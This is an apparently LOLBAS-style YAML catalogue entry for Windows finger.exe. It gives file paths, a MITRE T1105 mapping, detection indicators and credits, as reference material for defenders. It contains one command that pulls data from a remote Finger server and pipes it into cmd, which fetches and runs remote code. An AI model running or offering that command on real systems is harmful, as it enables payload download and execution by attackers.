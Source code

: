 ```yaml
---
Name: Finger.exe
Description: Displays information about a user or users on a specified remote computer that is running the Finger service or daemon
Author: Ruben Revuelta
Created: 2021-08-30
Commands:
  - Command: finger user@example.host.com | more +2 | cmd
    Description: 'Downloads payload from remote Finger server. This example connects to "example.host.com" asking for user "user"; the result could contain malicious shellcode which is executed by the cmd process.'
    Usecase: Download malicious payload
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/techniques/T1105
    OperatingSystem: Windows 8.1, Windows 10, Windows 11, Windows Server 2008, Windows Server 2008R2, Windows Server 2012, Windows Server 2012R2, Windows Server 2016, Windows Server 2019, Windows Server 2022
Full_Path:
  - Path: c:\windows\system32\finger.exe
  - Path: c:\windows\syswow64\finger.exe
Detection:
  - IOC: finger.exe should not be run on a normal workstation.
  - IOC: finger.exe connecting to external resources.
Resources:
  - Link: https://twitter.com/DissectMalware/status/997340270273409024
  - Link: https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/ff961508(v=ws.11)
Acknowledgement:
  - Person: Ruben Revuelta (MAPFRE CERT)
    Handle: '@rubn_RB'
  - Person: Jose A. Jimenez (MAPFRE CERT)
    Handle: '@Ocelotty6669'
  - Person: Malwrologist
    Handle: '@DissectMalware'
---
```

